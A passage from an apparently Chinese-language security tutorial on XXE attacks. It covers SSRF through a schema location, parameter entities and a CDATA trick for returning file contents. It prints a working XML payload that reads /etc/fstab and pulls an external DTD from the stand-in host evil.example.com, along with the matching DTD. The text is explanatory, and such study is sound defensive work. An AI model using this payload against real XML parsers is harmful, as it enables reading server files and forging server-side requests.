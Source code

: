 在这个案例中，所有带有secondaryns:前缀的都会遵循在xmlns:secondaryns中定义的机制。由于DOCTYPE定义不能出现在文档的中部，所以当我们只对文档某个部分可控的时候，就能利用schema_Location（http://location/of/remote/schema/primary.xsd）发起ssrf。（前提是一些设置需要设置为on，然而我们并没有对每个xml parser进行充分的测试来研究不同环境下有什么要求能让我们进行ssrf攻击，所以这也是一个待研究的方向，有兴趣的wooyuner可以交流~）

0x02 引入参数实体后的攻击手段
=================

* * *

当我们的恶意xml被成功解析，这时我们有可能面临两个问题：

```
一，数据未闭合导致嵌入失败（比如只存在<?php）
二，服务器进行限制导致数据不能返回。

```

引入参数实体之后，这两个问题就能得到解决。

参数实体以%开头 我们使用参数实体只需要遵循两条原则：

参数实体只能在DTD声明中使用。 参数实体中不能再引用参数实体。

CDATA转义的妙用
----------

CDATA部件；在CDATA部件的所有内容都会被XML解析器忽略，即CDATA部件里面的内容紧紧这是一个字符串文本的作用。一个 CDATA 部件以`"<![CDATA["`标记开始，以`"]]>"`标记结束。那么我们能不能构造一个这样的页面来返回那些文件呢

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % goodies SYSTEM "file:///etc/fstab">
  <!ENTITY % end "]]>">
  <!ENTITY % dtd SYSTEM "http://evil.example.com/combine.dtd">
%dtd;
]>
<roottag>&all;</roottag>

```

combine.dtd如下

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">

```

前面也提到过，当xml parsers会把xml的参数实体`% start % end`马上解释，由于没有闭合 就会抛出错误，那么这里的%start为何能正常地解析呢？ 这是因为参数实体的引用不需要在xml文档解析的时候保持xml闭合，这样就绕过了限制。

通过这样我们就能读取所有数据了（base64编码也可）

外带数据bypass回显限制
--------------

另一种使用参数实体的手段就是外带数据了。
